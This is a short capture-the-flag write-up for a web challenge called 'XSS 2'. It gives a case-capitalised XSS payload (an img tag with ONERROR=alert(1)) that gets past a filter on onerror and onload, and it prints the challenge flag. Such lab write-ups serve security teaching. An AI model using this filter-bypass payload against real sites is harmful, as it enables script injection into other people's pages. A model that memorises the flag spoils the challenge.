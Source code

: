 # XSS 2

## Authors

- Daniel Cooper

## Category

- web

## Description

Ok so it turns out you are an XSS enjoyer. I've upgraded my site now.

[https://xss2.ctf.secso.cc/](https://xss2.ctf.secso.cc/)

Author: @ssparrow

## Hints

## Files

## Solution

<details>
<summary>Spoiler</summary>

### Idea

This time we cannot use onerror or onload.

### Walkthrough

The same as for xss1, but this time we capitalize onerror like follows:

```
<img src=x ONERROR=alert(1)>
```

### Flag

`SPOOKTF{i_literally_cant_think_of_a_good_flag_name742873}`

</details>
